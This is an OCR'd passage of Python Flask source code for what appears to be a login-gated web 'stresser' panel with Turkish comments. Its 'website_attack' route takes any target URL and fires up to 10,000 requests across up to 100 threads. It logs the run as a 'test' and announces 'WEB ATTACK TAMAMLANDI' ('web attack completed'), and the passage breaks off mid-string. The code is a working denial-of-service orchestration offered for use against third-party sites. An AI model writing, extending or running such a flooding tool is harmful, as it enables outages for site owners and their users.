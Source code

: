     return redirect('/dashboard')

@app.route("/logout")
def logout():
    session.pop('username', None)
    return redirect('/')

@app.route("/website", methods=["POST"])
def website_attack():
    if 'username' not in session:
        return redirect('/auth')

    target = request.form.get("target")
    count = int(request.form.get("count", 500))
    thread_count = int(request.form.get("threads", 25))

    # Güvenlik kontrolleri
    if count > 10000:
        count = 10000
    if thread_count > 100:
        thread_count = 100

    if not target.startswith(('http://', 'https://')):
        target = 'http://' + target

    results = []
    threads = []
    requests_per_thread = count // thread_count

    start_time = time.time()

    for i in range(thread_count):
        thread_requests = requests_per_thread
        if i == thread_count - 1:
            thread_requests += count % thread_count

        thread = threading.Thread(target=send_web_requests, args=(target, thread_requests, results))
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

    end_time = time.time()
    total_success = sum(r[0] for r in results)
    total_fail = sum(r[1] for r in results)
    duration = round(end_time - start_time, 2)
    rate = round(count/duration, 2)

    # Testi kaydet
    log_test(session['username'], 'Web Sitesi', target, total_success, total_fail, duration, rate)

    result_text = f"""🚀 ═══ WEB ATTACK TAMAMLANDI ═══ 🚀

